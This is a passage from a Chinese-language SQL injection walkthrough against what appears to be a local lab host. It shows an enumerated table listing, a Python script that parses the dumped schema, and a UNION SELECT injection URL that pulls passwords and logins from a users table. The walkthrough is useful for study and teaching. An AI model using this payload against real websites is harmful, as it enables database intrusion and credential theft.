 ```
表名：VIEWS		字段名:TABLE_CATALOG COLLATION_CONNECTION SECURITY_TYPE CHARACTER_SET_CLIENT IS_UPDATABLE VIEW_DEFINITION CHECK_OPTION DEFINER TABLE_NAME TABLE_SCHEMA 

表名：categories		字段名:title id 

表名：pictures		字段名:cat img title id 

表名：users		字段名:password id login 

```

数据处理代码：

```python 
table = dict()
with open(文件路径) as f:
    for line in f.readlines():
        line = line.strip('\n')
        if not line:
            pass
        else:
            line = line.replace(' ','').split(':')
            if len(line) == 3:
                if line[1] not in table.keys():
                    table[line[1]] = set()
                table[line[1]].add(line[2])
            elif len(line) == 2:
                if line[0] not in table.keys():
                    table[line[0]] = set()
                table[line[0]].add(line[1])
for key,values in table.items():
    print("表名："+ str(key) + "\t\t字段名:",end='')
    for value in values:
        print(value,end=' ')
    print('\n')
```

可以清楚的看到，users 字段有 password、id、login。



**5）获取需要的数据**

使用上面相同的方法：

```mysql
http://192.168.55.3/cat.php?id=1 UNION SELECT 1,concat(password,'>',id,'>',login),3,4 FROM users
```

结果如下：

![passwd_id_login](image/passwd_id_login.jpg)


[sqlmap]: https://github.com/sqlmapproject/sqlmap 